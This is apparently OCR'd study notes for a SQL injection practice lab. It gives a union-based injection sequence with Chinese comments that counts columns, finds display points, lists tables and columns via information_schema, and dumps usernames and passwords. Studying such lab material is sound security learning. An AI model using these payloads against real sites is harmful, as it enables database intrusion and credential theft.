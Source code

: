 order by 4 -- -
<br />判断有多少列
<br />union select 1,2,3 -- -
<br />判断数据显示点
<br />union select 1,user(),database()­­ -- -
<br />­显示出登录用户和数据库名
<br />union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = 'security' ),3 -- -
<br />查看数据库有哪些表
<br />union select 1,(select group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name='users' ),3 -- -
<br />查看对应表有哪些列
<br />union select 1,(select group_concat(concat_ws(0x7e,username,password))from users),3 -- -
<br />查看账号密码信息

